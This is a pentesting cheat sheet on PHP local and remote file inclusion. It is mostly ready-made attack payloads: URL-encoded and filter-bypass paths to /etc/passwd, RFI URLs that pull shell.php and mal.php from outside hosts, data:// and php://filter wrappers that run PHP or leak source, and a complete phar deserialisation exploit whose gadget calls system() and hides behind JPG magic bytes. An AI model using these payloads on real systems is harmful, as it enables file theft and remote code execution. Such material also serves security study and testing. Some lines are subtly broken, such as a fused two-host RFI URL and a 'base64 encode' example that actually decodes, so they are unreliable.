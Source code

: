 # File inclusion
This happens when a user can control the file that is being loaded on the server.

## Local File Inclusion (LFI)
The server loads a local file.

### Basic LFI and bypasses

```
http://domain.com/index.php?page=../../../etc/passwd
```

#### URL encoding
One can try to URL encode the path either once or numerous times.
```
http://domain.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://domain.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://domain.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://domain.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

#### Filter bypasses
```
http://domain.com/index.php?page=....//....//etc/passwd
http://domain.com/index.php?page=..///////..////..//////etc/passwd
http://domain.com/index.php?page=PhP://filter
```

## Remote File Inclusion (RFI)
The server loads a file which is hosted on another server.      
RFI can only take place if  `allow_url_include` is turned on.

### Basic RFI and bypasses

```
http://domain.com/index.php?page=http://remote.com/shell.php
http://domain.com/index.php?page=\\remote.com\shell.phpattacker.com\mal.php
```



## PHP wrappers
### php://filter
PHP filters allow one to perform modification on data before it's being read by the server.     
Some of the techniques below can be used to bypass restrictions and filters set by the server.

```
# BASE64 encode data
http://domain.com/index.php?page=php://filter/convert.base64-decode/resource=/etc/passwd);
```

### data://
```
http://domain.com/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://domain.com/?page=data://text/plain,<?php phpinfo(); ?>
```

### phar:// and phar deserialisation
A `.phar` file is a PHP archive. One can upload such file and execute code when it is being loaded.   
It contains metadata in a serialised format. When parsed on the server said metadata gets deserialised.

Even if the source code on the server is not using the `eval` function, the following other methods will still invoke the vulnerability. `file_get_contents()`,`fopen()`,`file()`,`file_exists()`,`md5_file()`,`filemtime()`,`filesize()`

- [More detail](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)

#### Exploitation
1. Pretend that this is the source code of the server.
	```php
	# server.php
	<?php
	class ReadFile{
		public $data = null;
		
		public function __construct($data) {
			$this->data = $data;
		}
		
		function __destruct() {
			system($this->data);
		}
	}

	file_get_contents("phar://pwned.phar");

	?>
	```

2. This is the code that will make the phar file.
	```php
	# make_phar.php
	<?php
	class ReadFile{
		public $data = null;
		
		public function __construct($data) {
			$this->data = $data;
		}
		
		function __destruct() {
			system($this->data);
		}
	}
	
	# Make phar
	$phar = new Phar('pwned.phar');
	$phar->startBuffering();
	$phar->addFromString('test.txt', 'text');
	$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");
	
	# Add object of class as metadata
	$object = new ReadFile('whoami');
	$phar->setMetadata($object);
	$phar->stopBuffering();
	?>
	```
*Magic bytes of JPG* `\xff\xd8\xff` *have been added to the phar file to bypass file upload restrictions*

3. Compile `pwned.phar` with:
	```bash
	php --define phar.readonly=0 make_phar.php
	```

#### References
- [https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)